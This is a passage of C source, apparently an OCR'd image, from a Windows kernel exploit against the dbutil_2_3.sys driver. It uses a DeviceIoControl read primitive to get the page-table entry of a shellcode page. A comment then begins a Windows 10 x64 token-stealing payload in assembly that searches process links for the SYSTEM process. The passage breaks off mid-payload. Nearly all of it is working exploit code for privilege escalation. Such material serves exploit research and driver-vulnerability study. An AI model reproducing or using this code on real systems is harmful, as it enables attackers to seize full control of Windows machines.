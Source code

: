```c

			// Print update
			printf("[+] PTE of the .data page the shellcode is located at in dbutil_2_3.sys: 0x%llx\n", shellcodePte);

			// Buffer to send to the driver (read primitive)
			unsigned long long inBuf2[4];

			// Values to send
			unsigned long long one2 = 0x4141414141414141;
			unsigned long long two2 = shellcodePte;
			unsigned long long three2 = 0x0000000000000000;
			unsigned long long four2 = 0x0000000000000000;

			inBuf2[0] = one2;
			inBuf2[1] = two2;
			inBuf2[2] = three2;
			inBuf2[3] = four2;

			// Parameter for DeviceIoControl
			DWORD bytesReturned2 = 0;

			BOOL interact1 = DeviceIoControl(
				driverHandle,
				IOCTL_READ_CODE,
				&inBuf2,
				sizeof(inBuf2),
				&inBuf2,
				sizeof(inBuf2),
				&bytesReturned2,
				NULL
			);

			// Error handling
			if (!interact1)
			{
				printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
				exit(-1);
			}
			else
			{
				// Last member of read array should contain PTE bits
				unsigned long long pteBits = inBuf2[3];

				printf("[+] PTE bits for the shellcode page: %p\n", pteBits);

				/*
					; Windows 10 1903 x64 Token Stealing Payload
					; Author Connor McGarr

					[BITS 64]

					_start:
						mov rax, [gs:0x188]		  ; Current thread (_KTHREAD)
						mov rax, [rax + 0xb8]	  ; Current process (_EPROCESS)
						mov rbx, rax			  ; Copy current process (_EPROCESS) to rbx
					__loop:
						mov rbx, [rbx + 0x2f0] 	  ; ActiveProcessLinks
						sub rbx, 0x2f0		   	  ; Go back to current process (_EPROCESS)
						mov rcx, [rbx + 0x2e8] 	  ; UniqueProcessId (PID)
						cmp rcx, 4 				  ; Compare PID to SYSTEM PID
						jnz __loop			      ; Loop until SYSTEM PID is found
```